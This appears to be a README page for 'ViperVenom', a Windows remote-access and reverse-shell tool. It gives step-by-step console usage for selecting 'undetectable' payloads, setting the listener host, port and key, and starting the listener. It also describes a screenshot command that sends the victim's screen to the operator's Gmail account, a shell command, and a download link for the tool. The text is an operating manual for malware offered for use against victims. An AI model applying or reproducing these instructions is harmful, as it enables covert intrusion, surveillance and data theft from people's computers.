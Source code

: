 To use the listener option in the list, type
```
use 1
Landing/ViperVenom/ > use 1
/ViperVenom/ > 
```
After selecting 1, to view available payloads, type
```
show payloads

/ViperVenom/ > show payloads

            Payloads                                    Description
            --------                                    -----------
            1) windows/vipervenom/tcp/payload           Undetectable ViperVenom Windows Payload

            2) windows/vipervenom/tcp/revshell          Undetectable ViperVenom Windows Reverse shell

```
You should be brought to the listener page.

To select a payload
```
use windows/vipervenom/tcp/payload

/ViperVenom/ > use windows/vipervenom/tcp/payload
(Listener) Windows/ViperVenom/TCP/Payload > 
```
After selecting payload, you must set up your host IP and port that you want to listen to, make sure that your client file has the same host IP and port.
```
EXAMPLE:
(Listener) Windows/ViperVenom/TCP/Payload > set host YOURIP
(Listener) Windows/ViperVenom/TCP/Payload > set port YOURPORT
(Listener) Windows/ViperVenom/TCP/Payload > options
LHOST=YOURIP
LPORT=YOURPORT
(Listener) Windows/ViperVenom/TCP/Payload >
```
The key should be the random key you got after generating the payload, copy the whole key including the b letter and the quotes and set it using "set key YOUR KEY"
there is an example of how I do it above this explanation

After you set everything up, type run and enter to start the listener

```
(Listener) Windows/ViperVenom/TCP/Payload > run
[*] Starting Listener...
Listener Started, Waiting for Connections...
```
## Special Commands

```
screenshot
```
Screenshots victim's computer and sends it directly to your Gmail account as base64 encoded image, decrypt it using the decode_image.py
that comes with ViperVenom and paste the base64 string in base64.txt and run the Python file, base64 and decode_image.py are in "Tools" folder.
```
$ python3 decode_image.py
```
The screenshot should appear in ViperVenom's Tool folder as a .jpg file.
```
$ shell
```

[Vultrlabs]: https://vultrlabs.net
[Download file]: https://github.com/Vultrlabs/ViperVenom/archive/refs/heads/main.zip